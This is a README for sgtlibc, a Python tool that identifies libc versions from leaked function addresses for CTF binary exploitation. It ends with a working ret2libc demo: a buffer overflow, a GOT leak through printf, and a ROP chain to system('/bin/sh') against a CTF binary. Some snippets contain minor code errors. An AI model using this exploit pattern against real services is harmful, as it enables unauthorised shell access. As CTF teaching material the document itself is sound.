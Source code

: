 

<p align="center">
    <a href="https://github.com/serfend/sgtlibc/"><img alt="pypi version" src="https://visitor-badge.glitch.me/badge?page_id=serfend/sgtlibc&left_text=views" /></a> 
    <a href="https://pypi.python.org/pypi/sgtlibc/"><img alt="pypi version" src="https://img.shields.io/pypi/v/sgtlibc.svg" /></a> 
    <a href="https://pypistats.org/packages/sgtlibc"><img alt="pypi download" src="https://img.shields.io/pypi/dm/sgtlibc.svg" /></a>
    <a href="https://github.com/serfend/sgtlibc/releases"><img alt="GitHub release" src="https://img.shields.io/github/release/serfend/sgtlibc.svg?style=flat-square" /></a>
    <a href="https://github.com/serfend/sgtlibc/releases"><img alt="GitHub All Releases" src="https://img.shields.io/github/downloads/serfend/sgtlibc/total.svg?style=flat-square&color=%2364ff82" /></a>
    <a href="https://github.com/serfend/sgtlibc/commits"><img alt="GitHub last commit" src="https://img.shields.io/github/last-commit/serfend/sgtlibc.svg?style=flat-square" /></a>
    <!-- <a href="https://github.com/serfend/sgtlibc/actions/workflows/pytest.yml"><img alt="GitHub Workflow Status" src="https://github.com/serfend/sgtlibc/actions/workflows/pytest.yml/badge.svg" /></a> -->
</p>





![Windows](https://img.shields.io/badge/Windows-0078D6?style=for-the-badge&logo=windows&logoColor=white)![Linux](https://img.shields.io/badge/Linux-FCC624?style=for-the-badge&logo=linux&logoColor=black)![Ubuntu](https://img.shields.io/badge/Ubuntu-E95420?style=for-the-badge&logo=ubuntu&logoColor=white)![Kali](https://img.shields.io/badge/Kali-268BEE?style=for-the-badge&logo=kalilinux&logoColor=white)![FreeBSD](https://img.shields.io/badge/-FreeBSD-%23870000?style=for-the-badge&logo=freebsd&logoColor=white)![Deepin](https://img.shields.io/badge/Deepin-007CFF?style=for-the-badge&logo=deepin&logoColor=white)![Debian](https://img.shields.io/badge/Debian-D70A53?style=for-the-badge&logo=debian&logoColor=white)![Cent OS](https://img.shields.io/badge/cent%20os-002260?style=for-the-badge&logo=centos&logoColor=F0F0F0)

# What?

[sgtlibc](https://github.com/serfend/sgtlibc) is a a offline python-lib for search libc function.



## Install

```shell
pip install sgtlibc
```



## Usage

```shell
usage: main.py [-h] [-d [DUMP ...]] [-i [INDEX]] [-u [UPDATE]] [funcs_with_addresses]

for search version of libc.you can use like:`sgtlibc puts:aa0+read:140 --dump system binsh` or in python , like : `py:import sgtlibc;s = sgtlibc.LibcSearcher();s.add_condition('puts',0xaa0)`

positional arguments:
  funcs_with_addresses  specify `func-name` and `func address` , split by `|`,eg: puts:aa0+read:140 , its means func-put's address = 0xaa0;func-read addr = 0x140 (default: None).

options:
  -h, --help            show this help message and exit
  -d [DUMP ...], --dump [DUMP ...]
                        select funcs to dump its info (default: ['__libc_start_main_ret', 'system', 'dup2', 'read', 'write', 'str_bin_sh']).
  -i [INDEX], --index [INDEX]
                        db index on multi-database found occation (default: 0).
  -u [UPDATE], --update [UPDATE]
                        update current libc database from internet , need non-microsoft-windows environment (default: False).
```





## Quick Start

- in cmd.exe` or `/bin/sh`

```shell
sgtlibc puts:aa0
sgtlibc puts:aa0+read:140
sgtlibc puts:aa0+read:140 --dump system binsh
```

- in `python3`

```python
import sgtlibc
s = sgtlibc.Searcher()
s.add_condition('puts', 0xaa0)
s.add_condition('read',0x140)
print(s.dump())
print(s.dump(['system','str_bin_sh']))
```



## Example

- `main args` specify `func-name` and `func address` ,**SHOULD split by `|` **

  eg: `puts:aa0+read:140` which means:

  - func-`puts` address = `0xaa0`
  - func-`read` address =` 0x140`

- `--update` is for update libc database from internet base on `libc-database` , **require non-microsoft-window**  system

### python run

- run [python code above](/#/Quick Start) , you'll get output-result like following shows:

![image-20220605212842313](https://raw.githubusercontent.com/serfend/res.image.reference/main/image-20220605212842313.png)

### command run

- run command in terminal , you'll get output-result like following shows:

  ![image-20220605213023151](https://raw.githubusercontent.com/serfend/res.image.reference/main/image-20220605213023151.png)

### pwntools run

- use in `pwntools`

```python
from pwn import * # should run pip install pwntools before
import sgtlibc
s = libc.Searcher()
puts_addr = 0xf71234567aa0 # from leak data
s.add_condition('puts',puts_addr)
s.dump(db_index=0) # search libc , if returns multi-result ,default use index-0's result
system_addr = p00(s.get_address(sgtlibc.s_system))
binsh_addr = p00(s.get_address(sgtlibc.s_binsh))
```



### use user-libc database

```python
from sgtlibc.utils import configuration as config


def test_use_user_libc():
    lib_path = './libs' # here input your libc directory
    config.set(config.extension_database_path, lib_path)
    s = LibcSearcher('puts', 0xf7007)
    s.decided()
```



## CTF Problem Solve DEMO

[view all sameple files](https://github.com/serfend/sgtlibc/tree/main/samples/libc-leak/x64-babyrop)

- use exploit code

```python
import sgtlibc
from sgtlibc.gamebox import *
set_config(GameBoxConfig(
    is_local=True, file='./babyrop2', remote='192.168.0.1:25462',
    auto_load=True,
    auto_show_rop=True,
    auto_show_summary=True,
    auto_start_game=True,
    auto_load_shell_str=True,
    auto_show_symbols=True
))
s = sgtlibc.Searcher()
elf = client.elf
def exp():
	payload_exp = [b'a' * (28 + 4),fakeebp()] # overflow position
    return payload_exp
def leak(func: str):
    payload = exp()
    # here will auto-pack to p64, you can use p64 or p00 as same effect.
    payload += [elf.rop['rdi'],elf.got[func],elf.plt['printf'],elf.symbols['main']]
    sl(payload)
    rl()
    data = rc(6).ljust(8, b'\0')
    data = uc(data)
    s.add_condition(func, data)
    return data
leak('printf')
leak('read')
data = s.dump(db_index=2)  # choose your system index
system_addr = s.get_address(sgtlibc.s_system)
binsh_addr = s.get_address(sgtlibc.s_binsh)
log.info(f'system_addr:{hex(system_addr)}')
log.info(f'binsh_addr:{hex(binsh_addr)}')
payload = exp() 
payload += [elf.rop['rdi'],binsh_addr,system_addr, fakeebp()]
    
sl(payload)
interactive()
```

- result

![image-20220609134743902](https://raw.githubusercontent.com/serfend/res.image.reference/main/image-20220609134743902.png)





## Notice

> default libc database is update on `2022-06-01`,which long-time ago , we fully recommanded to update it by run `sgtlibc --update`



## Status

![Alt](https://repobeats.axiom.co/api/embed/7d8920fddffed00ee7feb8d172bc7b48c86da3b8.svg "Repobeats analytics image")
